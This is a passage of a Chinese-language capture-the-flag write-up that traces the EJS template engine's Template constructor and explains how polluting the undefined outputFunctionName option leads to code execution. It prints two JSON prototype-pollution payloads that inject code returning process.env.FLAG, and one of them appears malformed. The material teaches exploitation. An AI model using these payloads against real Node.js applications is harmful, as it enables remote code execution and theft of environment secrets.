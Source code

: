 这里new了一个Template对象，跟进去看一下

这个function Template里面的变量很满足原型链污染触发的亚子

```javascript
 opts = opts || {};
  var options = {};
  this.templateText = text;
  this.mode = null;
  this.truncate = false;
  this.currentLine = 1;
  this.source = '';
  this.dependencies = [];
  options.client = opts.client || false;
  options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
  options.compileDebug = opts.compileDebug !== false;
  options.debug = !!opts.debug;
  options.filename = opts.filename;
  options.openDelimiter = opts.openDelimiter || exports.openDelimiter || _DEFAULT_OPEN_DELIMITER;
  options.closeDelimiter = opts.closeDelimiter || exports.closeDelimiter || _DEFAULT_CLOSE_DELIMITER;
  options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;
  options.strict = opts.strict || false;
  options.context = opts.context;
  options.cache = opts.cache || false;
  options.rmWhitespace = opts.rmWhitespace;
  options.root = opts.root;
  options.outputFunctionName = opts.outputFunctionName;
  options.localsName = opts.localsName || exports.localsName || _DEFAULT_LOCALS_NAME;
  options.views = opts.views;
  options.async = opts.async;

```

一路向下跟进

![nxHzRI.png](https://s2.ax1x.com/2019/09/21/nxHzRI.png)

我们可以清楚的看到outputFunctionName是未定义的，那么通过原型链污染污染这个这个变量，即可rce。

下面的payload打五次，访问/get即可得到flag

```javascript
{"type":"wiki","content":{"constructor": {"prototype": {"outputFunctionName": "a=1; return process.env.FLAG"; var tmp }}}}

```

```
{"type":"wiki","content":{"constructor": {"prototype": {"outputFunctionName": "a=1; return process.env.FLAG//";}}}}

```



#### 前后端组合利用
